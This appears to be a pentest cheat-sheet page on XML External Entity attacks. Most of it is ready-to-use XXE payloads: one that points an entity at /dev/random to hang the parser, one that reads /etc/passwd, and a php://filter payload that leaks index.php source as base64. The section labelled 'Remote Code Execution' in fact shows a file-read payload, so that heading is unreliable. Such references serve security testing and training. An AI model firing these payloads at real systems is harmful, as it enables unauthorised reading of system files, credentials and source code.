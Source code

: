 ```yaml
---
description: XML External Entity
---
```


# XXE

_An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when **XML input containing a reference to an external entity is processed by a weakly configured XML parser.**_

## Accessing a local resource that may not return

```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
```

## Remote Code Execution

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

Sometimes PHP or Apache will prevent a php file from being loaded. If this is the case, we can actually have PHP encode the file as Base64 to bypass some controls.

```bash
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

![](../../.gitbook/assets/image%20%282%29.png)

## References

* [https://owasp.org/www-community/vulnerabilities/XML\_External\_Entity\_\(XXE\)\_Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing)
* [https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/xxe](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/xxe)



